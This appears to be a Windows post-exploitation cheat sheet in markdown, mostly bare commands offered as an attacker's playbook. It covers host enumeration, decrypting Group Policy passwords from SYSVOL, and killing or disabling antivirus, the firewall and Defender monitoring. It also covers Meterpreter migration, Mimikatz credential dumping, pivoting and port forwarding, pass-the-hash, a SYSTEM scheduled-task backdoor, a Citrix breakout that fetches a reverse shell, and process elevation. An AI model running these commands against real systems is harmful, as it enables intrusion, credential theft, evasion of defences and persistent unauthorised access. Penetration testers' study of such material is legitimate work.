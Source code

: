 ```whoami```

```net user /whoami```

```whoami /priv```

```ipconfig```

```systeminfo```

> **ALERT**: Set up persistence. See RTFM Page ???

```wesng```

What architecture?

Run enum script

Upload accesschk if not present

Run Batch or PS scripts

#### Identify  IP and name of internal DC ####

##### Map DC drive to local #####

```net use z: \\$dc\sysvol```

```z:```
##### Search for interesting files #####

```dir /s Groups.xml```

##### If getting this far, copy to local and decrypt #### 

```gpp-decrypt $hash```

#### AV Running? I can killz?

```tasklist /svc```

```tasklist /svc | find /I “avg”```

##### Powershell #####

```Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct  -ComputerName $name```

##### Batch #####

```wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayNamed```

```sc stop $process```

```sc config "service name" start= disabled```

```taskkill /F /IM $avprocess.exe```

```net stop “service name"```

#### Command Execution Restrictions ####

Check lolbas

##### rundll32? #####

```rundll32 $full_path_to_evil.dll,EntryPoint```


##### FW? #####

```netsh firewall show opmode```

```netsh firewall set opmode mode=disable```


##### Stop WInDefend Monitoring #####

```Set-MpPreference -DisableRealtimeMonitoring $true```

##### Migrate Meterpreter 32 -> 64 bit

meterpreter: ```ps -S "winlogon"```

meterpreter: ```migrate $new_pid```

##### Mimikatz

meterpreter: ```load mimikatz```

meterpreter: ```msv```

meterpreter: ```kerberos```

### Pivot ###

#### netsh ####

```netsh advfirewall firewall show rule name=all | find "Rule Name:" | find "$NameLookingFor"```

```netsh interface portproxy add v4tov4 listenport=8001 connectport=9001 connectaddress=127.0.0.1```

```netstat -ano | findstr :9001```

#### Meterpreter 

1. Note IP address

2. Exit shell

3. Background Meterpreter

4. ```route add 10.10.0.0 255.255.255.0 $sessionNumber```

NOTE: *10.10.0.0 indicates the target internal network*

5. Reconnect to session

6. portfwd add -l $local_port -p $remote_port -r $target_ip 

##### Pass the Hash (PTH)

1. Acquire password

2. Get winexe

3. Set up port forward if required

4. ```Kali:~# winexe -U $username%password //127.0.0.1 "cmd"```

#### Once Admin Set Up Persistent Backdoor

NOTE: *pwn == Task name*

```schtasks /create /ru SYSTEM /sc minute /MO 10 /tn $pwn /tr "\C:\evil.exe""```

```C:\ exit```

```meterpreter: portfwd delete -l $local_port -p $remote_port -r $target_ip ```

```background```

Start new handler and wait

#### Citrix

Login

What apps are available?

Open other programs?

##### Example: Internet Explorer #####

Click Help

Open notepad

Save 'powershell' to .bat file

Use Notepad again to open .bat (Run it)

Download new reverse shell

Handle with meterpreter

#### Elevate Existing Process via privesc exploit

Get meterpreter pid

```meterpreter: getpid```

```meterpreter: execute -H -f evil.exe -p "-pid $pid"```

